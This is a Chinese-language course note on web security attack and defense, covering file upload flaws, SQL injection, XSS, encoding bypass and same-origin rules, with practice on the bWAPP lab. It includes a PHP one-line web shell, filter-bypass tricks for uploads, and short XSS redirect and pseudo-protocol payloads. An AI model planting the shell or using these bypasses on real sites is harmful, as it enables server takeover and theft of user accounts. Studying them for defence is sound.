

极客时间的 **web网络安全攻防实战** 课程记录

web 安全的根本性原因是 `前端输入不可信`

# 常用的工具
- **Burp-Suite**: Burp Suite Professional is one of the most popular penetration testing and vulnerability finder tools
- **cURL**: 系统自带
- **Postman**: GUI式cURL
- **Wappalyzer**: 网站技术栈分析
- **HackBar**: web安全工具插件


# Web 后端安全

## 文件上传漏洞
举个例子，后端服务器若为 `PHP`，那么可以上传一个 `shell.php` 文件，里面包含

```php
# shell.php

# 通过php，调用 post 请求中的 hacker 参数
<?php @eval($_POST['hacker']); ?>  
```

一旦文件上传成功，即可把下面的命令加入 `post` 请求体
```bash
# 任意 Post 请求的请求体

hacker=echo getcwd()
hacker=echo get_current_user()
```

工具： 
- 可以用 `中国菜刀`，一个 win 平台的工具
- 使用 `Docker` 运行 bWAPP 平台练习

### 初阶：后缀名绕过
```bash
# 修改 shellp.php 的名字
cp  shell.php  shell.php3    # True

cp  shell.php  shell.php30   # False
```

```bash
# 如何探究其原因

-> netstate 命令 (获取 Program name，例 Apache2)
-> 找到 Apache 配置文件 `Apache.config`
-> 找到 module 加载配置
-> 找到 php5.conf 配置文件
-> 发现 <FilesMatch ".+\.ph(p[345]?|t|tml)$"> 正则匹配
```


### 中阶：3种
1. 前端验证绕过
   
    很多 CMS(content management system) 都只在前端用 js 来做校验

    漏洞利用流程  

    1. 通过 Burp Suite 抓包，修改内容后放行 `常见`
    2. 通过 Chrome 禁止or删除 js 代码 

2. `.htaccess` 绕过

    - 前提：web server 支持 `.htaccess` 分布式配置文件
    - 原理：使用此文件绕过 `黑名单过滤`
    - 例子：比如黑名单限制上传 `php` 文件，但是上传 `jpg` 文件，利用 `.htaccess` 告诉目前文件夹可以去解析某一类文件。
    - 用 `php` 解析 `jpg`

```  
白名单过滤：不能使用，因为 .htaccess 无法上传
黑名单过滤：只要没有限制 .htaccess 就可以上传，伪装为 .test （例）
```

3. 大小写绕过

   - Windows: 大小写`不敏感`
   - Linux: 大小写`敏感`



### 高阶：3种
- `文件流绕过`，针对 windows 文件流
- `字符串截断`，当拼接目录时
- `文件头检测`，(绕过白名单，需要检测文件内容时，注意不要有乱码)


## SQL 注入漏洞

是发生于 `应用程序与数据库` 的安全漏洞  

实际情况中，需要结合用户的输入`动态构造SQL语句`，导致此时有SQL注入风险

提交网页时，主要分 GET方法，POST方法

### Web 应用三层架构
界面层 + 业务逻辑层 + 数据访问层


```
具体案例
```


md5解密网站 [CMD5](https://www.cmd5.com/)


# Web 前端安全

## XSS 跨站脚本攻击
主要分了 3 个`类`型 过数据库，`反射型` 不过数据库


- 反射型
- 储存型
- DOM型

危害
- 盗取cookie，盗取账户，恶意软件下载，键盘记录，广告引流

### 反射型
`未经转义的用户输入`：非持久化，需要用户点击

使用 bWAPP 进行 XSS 练习

诱导用户跳转
```html
<script> alert('test'); location.href="https://www.baidu.com"</script>

// 闭合 <p> 标签
</p> <script> alert('test')</script> <p>
```

使用软件 `BeEF` 进行 xss


### 储存型
区别：`储存型` 过数据库，`反射型` 不过数据库

### DOM型
DOM XSS 经过 js 直接对 DOM tree 进行操作

### mXss
Mutated Xss - 突变 Xss  
与浏览器紧密相关，难度高


## 伪协议 与 编码绕过
### 伪协议
`伪协议`不同于因特网上所广泛使用的如 `http://,https://,ftp://`，在 URL 中使用，用于执行特
定的功能：
- Data 伪协议：
  - data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=
- JavaScript 伪协议 ：
  - javascript:alert("1")


### 编码绕过
ISO （国际标谁化组织）制定的包括了地球上所有文化、所有字母和符号的编码，使用两个字节表示一个字符，

`Unicode` 只是一个符号集，它只规定了符号的二进制代码，却没有规定这个二进制代码应该如何存储。

具体存储由：`UTF-8`，`UTF-16`等实现。

解析一篇 HTML 文档时主要有三个处理过程：HTML解析，URL解析 和 JavaScript解析

```
- HTML编码: &x116
- URL编码: %74
- Javascript编码（等同于Unicode编码）: &#x0074, \u0074

例子为字母 t 的3种形式编码下的样子

`顺序： HTML > URL > Javascript`
```

演示示例：
- HTML解码
- URL解码
- JS解码
- 二层混淆解码
- 三层混淆解码：对 alert(1) 中的 r，先进行`js编码`，后`url编码`，最后`html编码`。顺序刚好和`解码顺序相反`


## CSRF

**同源协议** 
- (协议、主机、端口)  
- 如果两个 URL 的协议、主机、端口都相同，则认为这两个 URL 同源  

分为 Cookie 和 DOM 来讨论

### Cookie 和 DOM 的区别

- Cookie
  - 父/子域名之间`原则上`也无法获取Cookie，但是可以设置 Cookie 内的 `domain=example.com` 参数，使得 `a.example.com` + `b.example.com` 可以相互访问 cookie
- DOM
  - 父/子域名之间可以操作DOM